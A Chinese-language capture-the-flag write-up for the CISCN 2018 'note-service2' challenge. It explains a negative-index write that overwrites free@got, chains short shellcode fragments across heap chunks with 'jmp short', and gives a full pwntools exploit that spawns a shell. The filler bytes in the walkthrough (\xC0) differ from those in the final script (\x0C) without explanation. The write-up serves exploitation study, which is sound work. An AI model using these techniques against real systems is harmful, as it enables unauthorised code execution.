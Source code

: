## CISCN-2018-Quals-note-service2

### 总结

做完这道题，收获如下：

- 1）汇编语句`jmp short s`，最后编译出来的机器码为`\xEB\x??`，问号代表`pc`寄存器会往前或往后跳转`x`个字节，`x`的范围为`-128~127`。要从`??`结束后算起。正数往前跳，负数往回跳。
- 2）修改某个函数的`got`表地址后，可以将目标地址填充为一段`shellcode`，如果是在堆上，那么需要借助`jmp short`指令。算好偏移。
- 3）`mov rsi, 0`比`xor rsi, rsi`要长，尽量用后面的。
- 4）`mov rax, 0x3b`比`mov eax, 0x3b`要长，如果长度有限制就用后面的。



### Checksec

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210221181537.png)

发现关闭了NX，可能要利用shellcode。

### 题目分析

首先把附件放在IDA中打开，发现是个菜单题：

**main**：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210221182640.png)

**sub_E30**:

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210221182801.png)

**menu**:

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210221182827.png)

**add_note**:

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210221183021.png)

可以看到，没有检查idx是否合法，可以在任意地址写一个对地址。

注意：如果申请的大小为8，最多只能写7个字节。

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210221183452.png)



**delete_note**:

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210221183248.png)

选项2和选项3并没有什么用。

由于程序关闭了堆栈不可执行，因此可以考虑修改某一个函数got表的内容为堆地址，在堆上写shellcode。

### 解题思路

#### 尝试的解题思路

- 发现有`UAF`漏洞，看能不能从`UAF`入手，泄露出`libc`的基地址或程序的基地址。然后，一顿思考后，发现程序没有`edit`，没有`show`，还只让输入`8`个字节，这就有点难搞。所以这个思路不太行。

- 由于在`add_note`中，没有校验输入的`idx`，所以是可以修改`func@got`的内容的，填充为一个堆地址。但是只让写`7`个字节，啥`shellcode`会这么短啊······谷歌后，发现一个`gadget`叫`jmp short`，可以拼接跳转执行，再加上一些滑板指令，就能拼凑出完整的`shellcode`。

  这里需要注意，只让写`7`个字节，所以指令的机器码不能太长，用`xor`代替`mov`，用`mov eax, 0x3b`代替`mov rax , 0x3b`。还有`jmp short`的机器码是`\xEB`，后面直接接一个偏移。偏移要算上后面的`8`个字节，加上下一个`chunk`的`pre_size`和`size`，所以一共是`1+8+8+8=0x19` 。也就是说前面填满`5`个字节，接一个`\xEB\x19`即可。



#### 最终解题思路

- 1）申请一块内存大小为8，内容`/bin/sh`
- 2）修改`free@got`的内容为堆地址
- 3）利用`jmp short s`往连续的几块`chunk`写入`shellcode`，`shellcode`为执行`execve`的系统调用。除去`pop rdi; ret`。因为`free(ptr)`，会自动`mov rdi, ptr`。
- 4）调用`delete_note`，释放前面的`/bin/sh`的内存块

### 编写EXP

首先把函数写好：

```python
def add_note(idx:int, size:int, content:bytes=b'\x00'):
    global io
    io.sendlineafter("your choice>> ", '1')
    io.sendlineafter("index:", str(idx))
    io.sendlineafter("size:", str(size))
    io.sendlineafter("content:", content)

def delete_note(idx:int):
    global io
    io.sendlineafter("your choice>> ", '4')
    io.sendlineafter("index:", str(idx))
```

首先分配一块带有`/bin/sh`的，预备调用。然后，往索引为`-17`处分配，修改`free@got`的内容为堆地址，顺便写上一条`shellcode`，`xor rsi, rsi`。这里选用`\xc0`作为滑板指令。

```python
add_note(0, 8, b'/bin/sh')
add_note(-17 , 8, asm('xor rsi, rsi') + b'\xC0\xC0\xEB\x19')
```

`-17`的计算是这样的：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210221194202.png)

可以看到，`free@got`的偏移为`0x202018`，题目中存储堆地址起始位置为`0x2020a0`，所以索引就是`(0x202018 - 0x2020a0) // 8 = -17`。

这里给出申请前后`free@got`的内容变化：

申请前：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210221194715.png)

申请后：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210221194817.png)

可以看到，`free@got`已修改成功，同时写上了`xor rsi,rsi; \xc0\xc0\xeb\x19`。

然后继续写：

```python
add_note(1, 8, asm('xor rdx, rdx') + b'\xC0\xC0\xEB\x19')
add_note(2, 8, asm('mov eax, 59') + b'\xEB\x19')
add_note(4, 8, asm('syscall'))
```

之后就会：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210221210451.png)

最后：

```python
delete_note(0) # get shell
```

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210221210711.png)

#### 完整exp

```python
from pwn import *

io = process('./note')

context.update(arch='amd64', os='linux', endian='little')

def add_note(idx:int, size:int, content:bytes=b'\x00'):
    global io
    io.sendlineafter("your choice>> ", '1')
    io.sendlineafter("index:", str(idx))
    io.sendlineafter("size:", str(size))
    io.sendlineafter("content:", content)

def delete_note(idx:int):
    global io
    io.sendlineafter("your choice>> ", '4')
    io.sendlineafter("index:", str(idx))

# 利用 jmp short s指令写shellcode
# 修改free@got处地址为堆地址
add_note(0, 8, b'/bin/sh')
add_note(-17 , 8, asm('xor rsi, rsi') + b'\x0C\x0C\xEB\x19')
add_note(1, 8, asm('xor rdx, rdx') + b'\x0C\x0C\xEB\x19')
add_note(2, 8, asm('mov eax, 59') + b'\xEB\x19')
add_note(4, 8, asm('syscall'))

delete_note(0)

io.interactive()
```

